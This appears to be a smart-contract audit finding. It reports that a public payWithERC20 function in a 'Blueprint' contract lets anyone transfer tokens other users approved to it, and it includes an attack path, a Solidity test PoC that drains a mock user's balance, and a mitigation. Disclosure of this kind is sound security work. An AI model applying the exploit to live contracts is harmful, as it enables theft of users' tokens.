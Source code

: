Muscular Carrot Armadillo

High

# Any token a user approves to the Blueprint contract can be stolen using the payWithERC20 function

### Summary

Payment tokens or any tokens approved to the Blueprint contract by a user can be stolen by another user using the payWithERC20 function

### Root Cause

The payWithERC20 is declared as a public function and hence can be called by any user.

### Internal Pre-conditions

User must have granted approval to the Blueprint contract prior

### External Pre-conditions

-

### Attack Path

1. User approves Blueprint contract to spend token on their behalf
2. Attacker calls payWithERC20 function providing the approved token's address as the erc20TokenAddress and the vulnerable user's address as the fromAddress with an amount less than the vulnerable user's balance and approval

### Impact

The user suffers a loss of some or all of their tokens.

### PoC

```solidity
function test_drainUsers() public {
        uint256 validTokenAmount = 100 * 10 ** 18;

        
        // mint token to user
        mockToken.mint(address(2), validTokenAmount);

        console.log(mockToken.balanceOf(address(2))); //100e18
        console.log(mockToken.balanceOf(address(1))); //0

        // Approve the blueprint contract to spend tokens on behalf of user
        vm.prank(address(2));
        mockToken.approve(address(blueprint), validTokenAmount);

        //anyone can use payWithErc20 function to steal user's token balance
        vm.prank(address(1));
        blueprint.payWithERC20(address(mockToken), validTokenAmount, address(2), address(1));

        console.log(mockToken.balanceOf(address(2))); //0
        console.log(mockToken.balanceOf(address(1))); //100e18
    }
```

### Mitigation

A simple solution would be to make the payWithERC20 function an internal function
